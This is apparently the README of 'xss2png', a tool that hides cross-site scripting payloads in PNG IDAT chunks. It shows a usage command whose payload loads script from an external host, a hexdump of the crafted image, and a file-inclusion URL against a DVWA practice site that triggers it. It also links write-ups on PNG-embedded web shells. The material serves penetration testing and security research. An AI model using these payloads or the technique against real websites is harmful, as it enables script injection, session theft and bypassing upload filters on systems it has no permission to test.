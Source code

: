 # xss2png
PNG IDAT chunks XSS payload generator

A simple tool to generate PNG images with XSS payloads stored in PNG IDAT chunks

*Huge thanks to Nathaniel McHugh for sharing his PHP source code with me*

### Usage

```
~/$ python3 xss2png.py -p "<SCRIPT SRC=//XSS.VAVKAMIL.CZ></SCRIPT>" -o xss.png
               ____                    
 __  _____ ___|___ \ _ __  _ __   __ _ 
 \ \/ / __/ __| __) | '_ \| '_ \ / _` |
  >  <\__ \__ \/ __/| |_) | | | | (_| |
 /_/\_\___/___/_____| .__/|_| |_|\__, |
                    |_|          |___/
 PNG IDAT chunks XSS payload generator

[i] Using payload: <SCRIPT SRC=//XSS.VAVKAMIL.CZ></SCRIPT>

[i] Generating final PNG output
[!] PNG output saved as: xss.png
```
### Example

<img src="xss.png">

```
~/$ hexdump -c xss.png 
0000000 211   P   N   G  \r  \n 032  \n  \0  \0  \0  \r   I   H   D   R
0000010  \0  \0  \0      \0  \0  \0      \b 002  \0  \0  \0   � 030   �
0000020   �  \0  \0  \0   y   I   D   A   T   x 234   c   �   <   S   C
0000030   R   I   P   T       S   R   C   =   \   \   X   S   S   .   V
0000040   A   V   K   A   M   I   L   .   C   Z   >   <   /   S   C   R
0000050   I   P   T   >       �   �   � 031   �   �   �   =   s   3   �
0000060 025   �   K   � 217 017   _   s   �   �   �   �   �   �   ?   �
0000070 227   _   �   X   1   �   �  \t   �   �   ~   �   �   �   g   o
0000080   4   �   �   v   �   3   2   2 214 202   Q   0  \n   F   �   (
0000090 030 005   �   ` 024 214 202   Q   0  \n 206 034  \0  \0   4   �
00000a0   % 002 021   �   �   �  \0  \0  \0  \0   I   E   N   D   �   B
00000b0   ` 202                                                        
00000b2
````

`https://dvwa.capturetheflag.cz/vulnerabilities/fi/?page=../../hackable/uploads/xss.png`

### Credits

fin1te  
Adam Logue  
huntergregal  
IDontPlayDarts  
Masato Kinugawa  
Nathaniel McHugh

### Relevant posts

06-2012 [Encoding Web Shells in PNG IDAT chunks](https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/)

11-2015 [Bug-hunter's Sorrow](https://www.slideshare.net/masatokinugawa/avtokyo-bug-hunters-sorrow-en)

01-2016 [An XSS on Facebook via PNGs & Wonky Content Types](https://whitton.io/articles/xss-on-facebook-via-png-content-types/)

03-2016 [Revisiting XSS payloads in PNG IDAT chunks](https://www.adamlogue.com/revisiting-xss-payloads-in-png-idat-chunks/)

### Other tools

[PNG-IDAT-chunks](https://github.com/vavkamil/old-repos-backup/tree/master/PNG-IDAT-chunks-master)

[PNG-IDAT-Payload-Generator](https://github.com/huntergregal/PNG-IDAT-Payload-Generator)

### Stack Overflow

[PHP shell on PNG's IDAT Chunk](https://stackoverflow.com/questions/49144776/php-shell-on-pngs-idat-chunk)
